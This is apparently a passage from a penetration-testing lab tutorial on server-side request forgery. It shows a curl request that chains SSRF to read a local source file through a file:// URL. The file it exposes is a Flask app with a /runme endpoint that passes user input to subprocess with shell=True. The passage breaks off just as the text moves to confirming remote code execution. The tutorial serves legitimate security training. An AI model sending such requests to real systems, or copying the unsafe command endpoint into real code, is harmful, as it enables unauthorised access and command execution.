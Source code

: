 Now we know that the current path is `/app`, and we have a list of interesting files. Let's disclose the `internal_local.py` file as follows.

**Retrieving a local file through the target application - File Schema**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 771
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:40:28 GMT

<html><body><h1>Resource: file:///app/internal_local.py</h1><a>import os
from flask import *
import urllib
import subprocess

basedir = os.path.abspath(os.path.dirname(__file__))

app = Flask(__name__)

def run_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout = p.stdout.read()
    stderr = p.stderr.read()
    result = stdout.decode() + " " + stderr.decode()
    return result

@app.route("/")
def index():
    return run_command("ls -lha")

@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
</a></body></html>
```

By studying the source code above, we notice a functionality that allows us to execute commands on the remote host sending a GET request to`/runme?x=<CMD>`. Let us confirm remote code execution by sending `whoami` as a command.

**cURL - Interacting with the Target**
